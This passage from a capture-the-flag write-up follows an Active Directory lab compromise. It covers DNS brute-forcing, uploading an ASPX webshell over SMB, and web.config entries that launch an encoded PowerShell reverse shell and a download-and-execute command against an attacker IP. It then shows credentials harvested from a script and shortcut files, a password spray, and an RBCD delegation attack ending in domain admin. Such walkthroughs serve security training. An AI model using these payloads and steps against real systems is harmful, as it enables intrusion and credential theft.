-rw-rw-rw-      71944  Fri Jun  7 08:13:32 2024 System.DirectoryServices.Protocols.dll
-rw-rw-rw-        554  Fri Jun  7 08:14:04 2024 web.config
drw-rw-rw-          0  Sun Mar 15 04:14:24 2026 wwwroot

```

Now unfortunately this server is not having any data saved?



Now analyzing the custom dll this seems an application internally?  


Now it is clear I need to obtain the correct VHOST and this can be done by bruteforcing the DNS service:

```bash
└─$ dnsenum --dnsserver 172.16.10.100 --enum -p 0 -s 0 -o subdomains.txt -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt heron.vl 
dnsenum VERSION:1.3.1

-----   heron.vl   -----


Host's addresses:
__________________

heron.vl.                                600      IN    A        172.16.10.100


Name Servers:
______________

mucdc.heron.vl.                          3600     IN    A        172.16.10.100


Mail (MX) Servers:
___________________


Trying Zone Transfers and getting Bind Versions:
_________________________________________________

unresolvable name: mucdc.heron.vl at /usr/bin/dnsenum line 892 thread 1.

Trying Zone Transfer for heron.vl on mucdc.heron.vl ... 
AXFR record query failed: no nameservers


Brute forcing with /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt:
_______________________________________________________________________________________

gc._msdcs.heron.vl.                      600      IN    A        172.16.10.100
domaindnszones.heron.vl.                 600      IN    A        172.16.10.100
forestdnszones.heron.vl.                 600      IN    A        172.16.10.100
accounting.heron.vl.                     3600     IN    CNAME    mucdc.heron.vl.
mucdc.heron.vl.                          3600     IN    A        172.16.10.100


```

And adding that localhost it is now possible to see a login page?  
<br/>

Now with Samuel credentials I was able to login:  


The site is only reading the data from the SQLite database which shown to be pretty damn void, but since I have write permissions I should be able to inject a aspx webshell?

```bash
└─$ impacket-smbclient heron.vl/svc-web-accounting-d:'H3r0n2024#!'@172.16.10.100
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# shares
accounting$
ADMIN$
C$
CertEnroll
home$
IPC$
it$
NETLOGON
SYSVOL
transfer$
# use accounting$
# cd wwwroot
# put cmdasp.aspx
# ls
drw-rw-rw-          0  Sun Mar 15 21:04:15 2026 .
drw-rw-rw-          0  Sun Mar 15 20:39:48 2026 ..
-rw-rw-rw-       1131  Fri Jun  7 08:13:32 2024 AccountingApp.styles.css
-rw-rw-rw-       1400  Sun Mar 15 21:04:15 2026 cmdasp.aspx
drw-rw-rw-          0  Sun Mar 15 04:14:24 2026 css
-rw-rw-rw-       5430  Fri Jun  7 08:13:32 2024 favicon.ico
drw-rw-rw-          0  Sun Mar 15 04:14:24 2026 js
drw-rw-rw-          0  Sun Mar 15 04:14:24 2026 lib
# 

```

# Getting a RCE

Here I had again to check for tips, but apparently if I edit the web.config the site will crash, so the idea is to "*spray and pray*" sort of using the file to execute a command! Inspiration from here:https://medium.com/@jeroenverhaeghe/rce-from-web-config-461a5eab8ce9

This is the code I am uploading on the server:

```xml
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <location path="." inheritInChildApplications="false">
    <system.webServer>
      <handlers>
        <add name="aspNetCore" path="execute.now" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />
      </handlers>
      <aspNetCore processPath="powershell" arguments="-e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAwADUAIgAsADQANAA0ADQAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA" hostingModel="OutOfProcess"/>
    </system.webServer>
  </location>
</configuration>
<!--ProjectGuid: 803424B4-7DFD-4F1E-89C7-4AAC782C27C4-->

```

And now I need to callback that path?



Now here I lost several hours to troubleshoot and apparently it is possible to dump the logs locally on the same share with this code:



```xml
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <system.webServer>
    <handlers>
      <add name="aspNetCore" path="*" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />
    </handlers>
    <aspNetCore processPath="powershell.exe" 
                arguments="-ExecutionPolicy Bypass -Command IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.60/shell.ps1')" 
                stdoutLogEnabled="true" 
                stdoutLogFile=".\logs\stdout" 
                hostingModel="OutOfProcess" />
  </system.webServer>
</configuration>
```

The reason is that the server cannot talk back directly to me, damn it!



Now using the linux machine it works flawlessly!

# Moving along

Now it is possible to obain the first flag as well:

```bash
PS C:\webaccounting> cd ..
PS C:\> ls


    Directory: C:\


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----          6/1/2024   8:10 AM                home                                                                 
d-----         6/24/2025   1:53 AM                inetpub                                                              
d-----          6/6/2024   7:22 AM                it                                                                   
d-----          5/8/2021   1:20 AM                PerfLogs                                                             
d-r---         5/12/2025   5:19 PM                Program Files                                                        
d-----          6/1/2024   7:30 AM                Program Files (x86)                                                  
d-----         5/26/2024   4:51 AM                transfer                                                             
d-r---          6/1/2024   8:43 AM                Users                                                                
d-----         3/15/2026   3:15 PM                webaccounting                                                        
d-----         6/24/2025   1:57 AM                Windows                                                              
-a----         5/12/2025   6:11 PM             39 flag.txt                                                             


PS C:\> cat flag.txt
HERON{0711fd03186271c8927eee055881c2fd}
PS C:\> 

```

Now here I had to check again for tips and apparently there is  leftover script with some more creds that might work on the Linux host?

```bash
PS C:\windows> cd scripts
PS C:\windows\scripts> ls


    Directory: C:\windows\scripts


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----          6/1/2024   8:26 AM            221 ssh.ps1                                                              


PS C:\windows\scripts> cat ss	
PS C:\windows\scripts> cat ssh.ps1
$plinkPath = "C:\Program Files\PuTTY\plink.exe"
$targetMachine = "frajmp"
$user = "_local"
$password = "Deplete5DenialDealt"
& "$plinkPath" -ssh -batch $user@$targetMachine -pw $password "ps auxf; ls -lah /home; exit"
PS C:\windows\scripts> 


```

I will temporarly move on to the Linux jump server.

# Last stretch

Now i can try to perform another password spray with the latest credentials and i can see another password reuse?

```bash
└─$ netexec smb mucdc.heron.vl -u users_ad.txt -p 'Deplete5DenialDealt' 
SMB         172.16.10.100   445    MUCDC            [*] Windows Server 2022 Standard 20348 x64 (name:MUCDC) (domain:heron.vl) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         172.16.10.100   445    MUCDC            [-] heron.vl\Katherine.Howard:Deplete5DenialDealt STATUS_LOGON_FAILURE 
SMB         172.16.10.100   445    MUCDC            [-] heron.vl\Rachael.Boyle:Deplete5DenialDealt STATUS_LOGON_FAILURE 
SMB         172.16.10.100   445    MUCDC            [-] heron.vl\Anthony.Goodwin:Deplete5DenialDealt STATUS_LOGON_FAILURE 
SMB         172.16.10.100   445    MUCDC            [-] heron.vl\Carol.John:Deplete5DenialDealt STATUS_LOGON_FAILURE 
SMB         172.16.10.100   445    MUCDC            [-] heron.vl\Rosie.Evans:Deplete5DenialDealt STATUS_LOGON_FAILURE 
SMB         172.16.10.100   445    MUCDC            [-] heron.vl\Adam.Harper:Deplete5DenialDealt STATUS_LOGON_FAILURE 
SMB         172.16.10.100   445    MUCDC            [-] heron.vl\Adam.Matthews:Deplete5DenialDealt STATUS_LOGON_FAILURE 
SMB         172.16.10.100   445    MUCDC            [-] heron.vl\Steven.Thomas:Deplete5DenialDealt STATUS_LOGON_FAILURE 
SMB         172.16.10.100   445    MUCDC            [-] heron.vl\Amanda.Williams:Deplete5DenialDealt STATUS_LOGON_FAILURE 
SMB         172.16.10.100   445    MUCDC            [-] heron.vl\Vanessa.Anderson:Deplete5DenialDealt STATUS_LOGON_FAILURE 
SMB         172.16.10.100   445    MUCDC            [-] heron.vl\Jane.Richards:Deplete5DenialDealt STATUS_LOGON_FAILURE 
SMB         172.16.10.100   445    MUCDC            [-] heron.vl\Rhys.George:Deplete5DenialDealt STATUS_LOGON_FAILURE 
SMB         172.16.10.100   445    MUCDC            [-] heron.vl\Mohammed.Parry:Deplete5DenialDealt STATUS_LOGON_FAILURE 
SMB         172.16.10.100   445    MUCDC            [+] heron.vl\Julian.Pratt:Deplete5DenialDealt 
                                                                                                    
```

Now so far he still can't do anything interesting in AD so looking back on the shares I can see he has some interesting data?

```bash
# use home$
# ls
drw-rw-rw-          0  Fri Jun  7 12:37:33 2024 .
drw-rw-rw-          0  Tue Jun 24 10:25:13 2025 ..
drw-rw-rw-          0  Fri Jun  7 12:38:33 2024 Adam.Harper
drw-rw-rw-          0  Fri Jun  7 12:38:45 2024 Adam.Matthews
drw-rw-rw-          0  Fri Jun  7 12:38:56 2024 adm_hoka
drw-rw-rw-          0  Fri Jun  7 12:39:09 2024 adm_prju
drw-rw-rw-          0  Fri Jun  7 12:39:26 2024 Alice.Hill
drw-rw-rw-          0  Fri Jun  7 12:39:37 2024 Amanda.Williams
drw-rw-rw-          0  Fri Jun  7 12:39:50 2024 Anthony.Goodwin
drw-rw-rw-          0  Fri Jun  7 12:40:05 2024 Carol.John
drw-rw-rw-          0  Fri Jun  7 12:40:17 2024 Danielle.Harrison
drw-rw-rw-          0  Fri Jun  7 12:40:27 2024 Geraldine.Powell
drw-rw-rw-          0  Fri Jun  7 12:40:39 2024 Jane.Richards
drw-rw-rw-          0  Fri Jun  7 12:40:53 2024 Jayne.Johnson
drw-rw-rw-          0  Fri Jun  7 12:41:06 2024 Julian.Pratt
drw-rw-rw-          0  Fri Jun  7 12:41:19 2024 Katherine.Howard
drw-rw-rw-          0  Fri Jun  7 12:41:31 2024 Mohammed.Parry
drw-rw-rw-          0  Fri Jun  7 12:41:42 2024 Rachael.Boyle
drw-rw-rw-          0  Fri Jun  7 12:41:52 2024 Rhys.George
drw-rw-rw-          0  Fri Jun  7 12:43:06 2024 Rosie.Evans
drw-rw-rw-          0  Fri Jun  7 12:43:16 2024 Samuel.Davies
drw-rw-rw-          0  Fri Jun  7 12:43:26 2024 Steven.Thomas
drw-rw-rw-          0  Fri Jun  7 12:43:38 2024 Vanessa.Anderson
drw-rw-rw-          0  Fri Jun  7 12:43:47 2024 Wayne.Wood
# cd Julian.Pratt
# tree
/Julian.Pratt/frajmp.lnk
/Julian.Pratt/Is there a way to -auto login- in PuTTY with a password- - Super User.url
/Julian.Pratt/Microsoft Edge.lnk
/Julian.Pratt/mucjmp.lnk
Finished - 0 files and folders
# 

```

Now this looks like a link to putty with some credentials?

```bash
┌──(millycash㉿kali-bello)-[~/Downloads/Heron]
└─$ cat mucjmp.lnk 
2t`��ف+B�� �gP�O� �:i�+00�/C:\�1�X�sPROGRA~1t	ﾨR�B�X�s.BJz
AProgram Files@shell32.dll,-21781P1�X�[PuTTY<	ﾺX�[�X�[.���PuTTY\2 ��X�� putty.exeD	ﾆX���X�[.putty.exeO-N�h�ZC:\Program Files\PuTTY\putty.exe#..\..\Program Files\PuTTY\putty.exeC:\Program Files\PuTTY$adm_prju@mucjmp -pw ayDMWV929N9wAiB4�&�
                                                                                                                                                                                                                                                   ��c^���NI��e�2��␦�`�Xmucdc>i�Y
                                                                                                                                                                                                                                                                                 �M�A���ϻg~�:N��
                                                                                                                                                                                                                                                                                                )BtP>i�Y
                                                                                                                                                                                                                                                                                                        �M�A���ϻg~�:N��
                                                                                                                                                                                                                                                                                                                       )BtPM	�a1SPS�0��C�G����sf"EdPuTTY (C:\Program Files)�1SPS�XF�L8C���&�m�q0S-1-5-21-1568358163-2901064146-3316491674-24588�1SPS0�%��G␦��`���%

putty.exe@ف+B��
                �)                                                                                              ��.��#t�                                                                                                                                                                                                                                                                                                                               
┌──(millycash㉿kali-bello)-[~/Downloads/Heron]
└─$ 

```

Indeed it works:

```bash
┌──(millycash㉿kali-bello)-[~/Downloads/Heron]
└─$ netexec smb mucdc.heron.vl -u adm_prju -p 'ayDMWV929N9wAiB4'
SMB         172.16.10.100   445    MUCDC            [*] Windows Server 2022 Standard 20348 x64 (name:MUCDC) (domain:heron.vl) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         172.16.10.100   445    MUCDC            [+] heron.vl\adm_prju:ayDMWV929N9wAiB4 

```

# Final stretch

Now it is clear this user possesses the ability to perform a RBCD on the DC:  


Now normally you would add a new computer to DC and use that to write the RBCD, but in this case the quota is equal to ZERO:  


Now here it was supposed to be possible to bypass the MAQ=0 by using a password change between S2U but it is failing so next step It is using the JMP\$ credentials SPN to the DC.

```bash
┌──(millycash㉿kali-bello)-[~/Downloads/Tools/rbcd-attack]
└─$ impacket-rbcd -dc-ip 172.16.10.100  -delegate-from 'FRAJMP$' -delegate-to 'mucdc$'  -action 'write' heron.vl/adm_prju -hashes :f1e35718836bebebaa57114d9371b19a
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] FRAJMP$ can now impersonate users on mucdc$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     FRAJMP$      (S-1-5-21-1568358163-2901064146-3316491674-27101)

```

And sending something similar should allow me to forge a TGS for administrative user:

```bash
└─$ impacket-getST -spn 'cifs/MUCDC.heron.vl' -impersonate '_admin' heron.vl/FRAJMP$ -hashes :6f55b3b443ef192c804b2ae98e8254f7
```

And get the last flag!

```bash
└─$ impacket-wmiexec heron.vl/_admin@MUCDC -hashes :3998cdd28f164fa95983caf1ec603938
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>cd users
C:\users>cd administrator
C:\users\administrator>cd desktop
C:\users\administrator\desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 5AA1-68C9

 Directory of C:\users\administrator\desktop

06/25/2025  05:17 AM    <DIR>          .
06/20/2025  06:11 AM    <DIR>          ..
05/26/2024  03:16 AM             2,308 Microsoft Edge.lnk
05/26/2024  04:30 AM             1,369 plink.lnk
05/12/2025  06:11 PM                39 root.txt
               3 File(s)          3,716 bytes
               2 Dir(s)   7,955,701,760 bytes free

C:\users\administrator\desktop>type root.txt
HERON{f2b5ceab341c1b3a02f66e00df87869b}
C:\users\administrator\desktop>

```